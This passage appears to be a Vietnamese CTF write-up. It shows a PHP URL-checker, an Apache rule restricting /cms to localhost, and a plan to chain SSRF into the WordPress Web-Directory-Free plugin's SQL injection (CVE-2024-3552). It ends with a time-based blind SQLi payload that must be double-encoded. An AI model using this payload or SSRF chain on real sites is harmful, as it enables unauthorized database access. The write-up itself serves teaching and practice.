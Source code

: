 ```php
]);

curl_exec($ch);
$http_code = curl_getinfo($ch, CURLINFO_HTTP_CODE);
curl_close($ch);

$cls = ($http_code >= 200 && $http_code < 300) ? 'ok'
     : ($http_code >= 400 ? 'fail' : 'warn');
echo '<!doctype html><meta charset="utf-8"><link rel="stylesheet" href="/space.css">
<div class="container"><h1><span class="logo-dot"></span>URL Checker</h1>
<div class="status ' . $cls . '">Done (Status Code ' . $http_code . ')</div></div>';
``` 
Ở file Apache-cms-local.conf như sau nó chỉ cho phép truy cập nếu chúng ta là localhost vậy khi nghe tới đây mình nghĩ ngay tới ssrf: <br>
```note
<Location "/cms">
    Require local
</Location>
```
Sau quá trình xem xét tất cả các file có 1 thư mục Web-Directory-Free nó là một Web Của WordPress và sau khi kiểm tra kĩ thì mình phát hiện ở file /classes/ajax_controller.php ở hàm get_map_marker_info() có dính lỗi SQL Injection nó lấy biến location_ids dưới dạng mảng và truyền trực tiếp vào mà không có sự lọc đầu vào và bằng cách đó mình có thể SSRF vào /cms của wordpress sau đó lợi dụng hàm này bị lỗi và khai thác SQL và do chỉ trả về trạng thái status code nên đây có thể trở thành là blind SQL: <br>
```php
[....]
public function get_map_marker_info() {
		global $wpdb;

		if (isset($_POST['locations_ids'])) {
			
			$locations_option_array = array();
			
			$locations_ids = w2dc_getValue($_POST, 'locations_ids');
			foreach ($locations_ids AS $location_id) {
				$map_id = w2dc_getValue($_POST, 'map_id');
				$show_summary_button = w2dc_getValue($_POST, 'show_summary_button');
				$show_readmore_button = w2dc_getValue($_POST, 'show_readmore_button');
	
				$row = $wpdb->get_row("SELECT * FROM {$wpdb->w2dc_locations_relationships} WHERE id=".$location_id, ARRAY_A);
[...]
```
Và sau khi tìm kiếm thông tin mình phát hiện được wordpress này dính CVE và có lỗ hổng SQL ở Method: get_map_marker_info như trên <a href="https://github.com/truonghuuphuc/CVE-2024-3552-Poc?tab=readme-ov-file">CVE-2024-3552</a> sau đó mình thử nghiệm bằng cách ssrf vào wordpress sau đó truyền payload thông qua tham số b. <br>
Và cần double encoding payload trước khi gửi request <br>
Payload 1: action=w2dc_get_map_marker_info&locations_ids%5B%5D=(select+if(1=2,sleep(6),0)+from+(select+1)x) <br>